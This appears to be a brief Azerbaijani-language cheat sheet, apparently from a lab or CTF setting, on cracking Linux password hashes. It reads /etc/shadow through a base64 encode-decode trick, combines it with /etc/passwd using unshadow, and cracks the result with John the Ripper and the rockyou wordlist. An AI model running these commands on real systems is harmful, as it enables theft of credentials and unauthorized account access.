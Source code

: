 ## Hashlanmish hesablarin parollarini tapilmasi 
## ilk olaraq 
    /usr/bin/base64 /etc/shadow | /usr/bin/base64 -d
## daha sonra 
    cat /etc/passwd
## daha sonra atack masin oz kalimize kecib bir tmp folderi kimi foldere kecirik  
     unshadow passwd{file} shadow{file}  | tee hash

## daha sonra bunu qeyd edib tee ile hash adinda iksini birlesdirib bir fayl yaradiriq 
## ve userdeki hisseye kecib asaqdaki emri verib parolu tapiriq
    sudo john --wordlist=/usr/share/wordlists/rockyou.txt  {hash}
